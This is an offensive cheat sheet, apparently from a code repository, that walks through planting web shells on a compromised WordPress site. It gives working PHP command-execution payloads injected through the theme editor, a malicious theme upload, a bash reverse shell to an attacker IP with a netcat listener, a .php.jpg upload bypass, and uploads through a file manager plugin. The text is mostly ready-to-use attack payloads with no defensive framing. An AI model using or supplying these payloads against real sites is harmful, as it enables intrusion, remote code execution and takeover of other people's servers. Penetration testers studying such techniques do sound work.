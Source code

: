 Once access to a WordPress admin panel or file system is obtained, a web shell can be deployed through various methods.

## Uploading a Web Shell via Theme Editor
If file editing is enabled:

1. Go to: `Appearance > Theme File Editor`
2. Select `404.php` or `functions.php`
3. Inject a PHP web shell payload
```php
<?php system($_GET['cmd']); ?>
```
Access it via:
```bash
http://target.com/wp-content/themes/[theme]/404.php?cmd=whoami
```


---

## Uploading a Shell as a Theme

1. Download a legitimate Wordpress Theme.
2. Unzip the Theme.
3. Create a new document inside the Theme whit the following content: 
```php
<?php system($_GET['cmd']); ?>
```

4. Zip the theme:

```php
zip shell.zip <Theme_folder>
```

5. Upload the Theme `shell.zip`.
6. Access:
```bash
http://target.com/wp-content/plugins/shell/shell.php?cmd=id
```

---

## Using Reverse Shell Instead of Web Shell

Replace the content of a document for a payload with a reverse shell:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'");
?>
```

Start listener:

```bash
nc -lvnp 4444
```

---

## Abusing Media Uploads (with .php.jpg Bypass)
If file upload restrictions are weak:
1. Rename your shell to `shell.php.jpg`
2. Upload via: `Media > Add New`
3. Try to access the shell directly


This often fails due to MIME checks, but some misconfigured setups allow it.

---

## Upload Shell via File Manager Plugin (if installed)

If plugins like **WP File Manager** are present:

- Navigate to `/wp-content/plugins/wp-file-manager/lib/files/`
- Upload PHP shell directly via GUI
- Access it via:
```bash
http://target.com/wp-content/plugins/wp-file-manager/lib/files/shell.php
```
